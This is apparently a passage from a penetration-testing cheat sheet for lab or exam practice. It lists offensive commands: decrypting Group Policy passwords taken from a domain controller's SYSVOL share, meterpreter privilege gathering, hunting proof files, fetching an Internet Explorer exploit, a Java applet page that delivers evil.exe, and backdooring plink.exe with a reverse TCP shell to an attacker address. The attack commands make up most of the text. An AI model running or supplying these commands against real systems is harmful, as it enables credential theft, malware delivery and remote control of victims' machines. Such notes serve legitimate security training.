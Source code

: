       `i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c`

-   Group Policy Preferences (GPP)  
    A common useful misconfiguration found in modern domain environments
    is unprotected Windows GPP settings files

    -   map the Domain controller SYSVOL share  
        
        `net use z:\\dc01\SYSVOL`

    -   Find the GPP file: Groups.xml  
        
        `dir /s Groups.xml`

    -   Review the contents for passwords  
        
        `type Groups.xml`

    -   Decrypt using GPP Decrypt  
        
        `gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB`
        
-   Find and display the proof.txt or flag.txt - get the loot!
    
    `#meterpreter  >     run  post/windows/gather/win_privs`
    `cd\ & dir /b /s proof.txt`
    `type c:\pathto\proof.txt`
    

Client, Web and Password Attacks
==============================================================================================================================

-   <span id="_pcjm0n4oppqx" class="anchor"><span id="_Toc480741817" class="anchor"></span></span>Client Attacks
    ------------------------------------------------------------------------------------------------------------

    -   MS12-037- Internet Explorer 8 Fixed Col Span ID  
        wget -O exploit.html
        <http://www.exploit-db.com/download/24017>  
        service apache2 start

    -   JAVA Signed Jar client side attack  
        echo '<applet width="1" height="1" id="Java Secure"
        code="Java.class" archive="SignedJava.jar"><param name="1"
        value="http://$ip:80/evil.exe"></applet>' >
        /var/www/html/java.html  
        User must hit run on the popup that occurs.

    -   Linux Client Shells  
        [*http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/*](http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

    -   Setting up the Client Side Exploit

    -   Swapping Out the Shellcode

    -   Injecting a Backdoor Shell into Plink.exe  
        backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip 
        -P 4444 -s reverse\_shell\_tcp
